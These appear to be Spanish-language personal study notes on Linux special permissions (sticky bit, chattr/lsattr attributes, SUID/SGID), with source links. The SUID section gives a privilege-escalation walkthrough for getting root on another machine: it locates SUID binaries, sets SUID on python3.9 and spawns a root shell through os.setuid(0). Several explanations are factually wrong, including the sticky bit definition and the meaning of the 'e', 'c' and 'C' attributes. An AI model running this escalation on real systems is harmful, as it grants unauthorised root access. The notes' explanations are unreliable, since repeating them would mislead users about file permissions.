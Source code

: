 [[index]]
[[index_linux]]

## PERMISO ESPECIAL: STICKY BIT

**DEFINICION:**
	El permiso #StickyBit deniega los permisos '777 y 666' a archivo y directorios de cualquier usuario pero `SOLO A GRUPOS Y A OTROS`.
**ASIGNACION:**
	Puede ser asignado con el siguiente comando:
```
# Modo normal
chmod +t archivo/directorio

# Modo octal
chmod 1777 archivo/directorio
```




## CONTROL DE ATRIBUTOS DE FICHERO: ATTR

**COMANDOS:**
	El #Lsattr visualiza los atributos de fichero.
&&
	El #Chattr hace in-borrable un archivo/directori incluso para el usuario root.
```
# Agregar
chattr +i -V archivo/directorio
# Quitar
chattr -i -V archivo/directorio
```

**PERMISOS:**
	"e": Indica que el atributo "append-only" está activado. Cuando este atributo está establecido en un archivo, solo se le permite agregar datos al final del archivo. No se pueden modificar ni eliminar datos existentes.
	"c" o "C": Indica que el atributo "no-clobber" está activado. Este atributo también controla la capacidad de agregar datos al archivo, pero de manera más restrictiva que el atributo "append-only". Si el atributo "c" está establecido, solo los usuarios con capacidad de escritura en el directorio pueden agregar datos al archivo. Si el atributo "C" está establecido, incluso el propietario del archivo no puede agregar datos.




## PERMISO ESPECIAL: SUID Y SGID

**DEFINICION:**
	Los permisos #SUID y #SGID activan la funcion root de forma pasiva.
**COMANDO:**
```
# Para usuario con y sin numeracion octal
chmod 4755(4000) directorio
chmod 4644(4000) archivo

# Para grupo con y sin numeracion octal
chmod 2755(2000) directorio
chmod 2644(2000) archivo
```

**EJEMPLO DE USO:**
	En el siguiente ejemplo se vera el paso a paso de como acceder al usiario root de otro linux mediante un _suid_/_sgid_.
	Estando en modo no root.
1. Buscar archivos/directorios con estas funciones activadas y luego filtralas con un redireccionamiento.
```
# Usuario
find / -type f -perm -4000 2>/dev/null

# Grupo
find / -type f -perm -2000 2>/dev/null
```
2. Elegir una de la lista, en caso de no tener se puede agregar esta funcion especial. `ACCION EN MODO ROOT`.
```
# Usuario
chmod u+s archivo/directorio

# Grupo
chmod g+s archivo/directorio
```
3. Tomaremos de ejemplo al archivo _python3.9_
```
$ chmod u+s /usr/bin/python3.9
$ python3.9 # Ejecutamos el archivo SUID
$ import os # Instalamos os(siempre)
$ os.setuid(0) # Entremos en modo ROOT
$ os.system('bash') # Elegimos una SHEEL
```


## 




## LINK

```
# Notacion octal
https://blog.alcancelibre.org/staticpages/index.php/permisos-sistema-de-archivos

# Permisos especial: sticky bit
https://keepcoding.io/blog/que-es-el-sticky-bit-y-como-configurarlo/
https://www.fpgenred.es/GNU-Linux/el_bit_sticky.html

# Permisos especiales: chattr
https://rm-rf.es/chattr-y-lsattr-visualizar-y-modificar-atributos-en-sistemas-de-ficheros-linux/#:~:text=El%20primer%20comando%2C%20lsattr%20permite,chmod%2C%20chown%2Csetfacl%E2%80%A6)
https://programmerclick.com/article/5604675172/

# Permisos especiales: SUID Y SGID
https://deephacking.tech/permisos-sgid-suid-y-sticky-bit-linux/#:~:text=Permiso%20SGID,-El%20permiso%20SGID&text=Si%20se%20establece%20en%20un,perteneciente%2C%20el%20grupo%20del%20directorio.
https://www.ochobitshacenunbyte.com/2019/06/17/permisos-especiales-en-linux-sticky-bit-suid-y-sgid/
https://www.ibiblio.org/pub/linux/docs/LuCaS/Manuales-LuCAS/SEGUNIX/unixsec-2.1-html/node56.html

```
